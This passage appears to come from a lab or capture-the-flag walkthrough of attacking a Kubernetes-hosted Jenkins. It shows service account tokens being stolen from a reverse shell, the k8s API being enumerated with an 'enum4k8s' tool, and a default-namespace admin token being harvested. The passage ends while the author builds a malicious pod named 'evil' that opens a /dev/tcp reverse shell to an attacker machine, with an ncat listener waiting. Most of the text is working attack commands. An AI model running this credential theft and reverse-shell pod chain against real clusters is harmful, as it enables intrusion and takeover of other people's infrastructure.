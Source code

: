 Let's look for Jenkins' secret >:)

In the reverse shell:

```
ls /var/run/secrets/kubernetes.io/serviceaccount/
export t=`cat /var/run/secrets/kubernetes.io/serviceaccount/token
```

Now let's enumerate the k8s API with our newly found token!

Again in the reverse shell:

```
./enum4k8s -jwt $t | tee api_enum
```

Zowee, that's a lot of info!

Let's get some more!

```
./enum4k8s -jwt $t -dump | tee api_enum_dump
```

Wow, that's even MORE info!

Let's look through it for a bit and see if there is anything interesting in there.

Looks like there is another account worth trying to grab

```
grep -C 10 "admin" api_enum_dump
```

Looks like we've got ourselves a poorly configure default namespace admin token!
Let's see what they're account can do :D

```
export at=<base64 decoded token>
./enum4k8s -jwt $at -dump | tee api_enum_dump_default_admin
```

So, the admin has a lot of access within the default namespace, that makes sense.

For the next part we can use either token, as both have the ability to create resources with the
`/api/v1/namespaces/default/pods` endpoint.

Let's create a malicious pod spec!

First open yet another terminal and create another netcat listener on a different port than the first.

```
ncat -lvp 6666
```

In the reverse shell:

```
./enum4k8s -pod -name "evil" -cmd '["bash", "-c", "bash -i >& /dev/tcp/<attack-machine-ip>/<port> 0>&1"]' -img "ubuntu:trusty" > pod.json
```
